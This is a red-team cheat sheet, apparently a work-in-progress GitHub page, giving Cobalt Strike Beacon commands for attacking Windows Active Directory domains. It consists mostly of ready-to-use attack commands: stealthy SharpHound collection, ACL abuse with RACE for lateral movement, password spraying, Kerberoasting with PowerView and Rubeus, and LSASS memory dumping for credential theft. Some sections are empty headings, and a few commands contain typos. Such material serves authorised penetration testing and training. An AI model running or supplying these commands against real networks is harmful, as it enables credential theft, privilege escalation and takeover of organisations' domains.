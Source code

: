 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

-------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
powershell 
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
# powershell-import --> RACE.ps1
# powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com
# powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com
```
-------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
Get a domain user list
# powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

Password spray from a username and password list
# powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

Auto spray a specific password on an auto-generated user list (noisy)
# powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

-------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI and SharpChrome

---
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
# upload --> ProcDump.exe
# shell ProcDump.exe -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
```
# powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```

---
# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
Sharphound: https://github.com/BloodHoundAD/SharpHound3
